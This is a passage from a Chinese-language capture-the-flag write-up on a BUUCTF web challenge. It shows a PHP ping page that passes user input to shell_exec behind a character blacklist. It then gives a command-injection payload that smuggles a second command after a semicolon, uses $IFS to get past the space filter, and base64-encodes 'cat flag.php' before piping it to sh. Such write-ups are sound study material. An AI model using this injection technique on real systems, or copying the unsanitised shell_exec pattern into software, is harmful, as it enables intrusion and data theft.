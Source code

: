结果..

<img src="/images/buuctf-web/image-20221013204255136-166704781973413.png" alt="image-20221013204255136" style="zoom:67%;" />

无奈,看一下另一个文件`index.php`吧,结果输出了源码,这里可以看到具体过滤了哪些字符

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?>
```

这样就要考虑绕过方法了

- **payload1: 通过`base64`编码执行命令:**

```
?ip=127.0.0.1;echo$IFSY2F0IGZsYWcucGhwCg==|base64$IFS-d|sh
这里实际上执行的命令是:
IFSY2F0IGZsYWcucGhwCg== 是base64编码后的cat flag.php
echo IFSY2F0IGZsYWcucGhwCg== 输出结果作为 base -d的输入,进行解码
然后将上面解码的结果再作为sh的输入,也就是作为命令执行cat flag.php
```

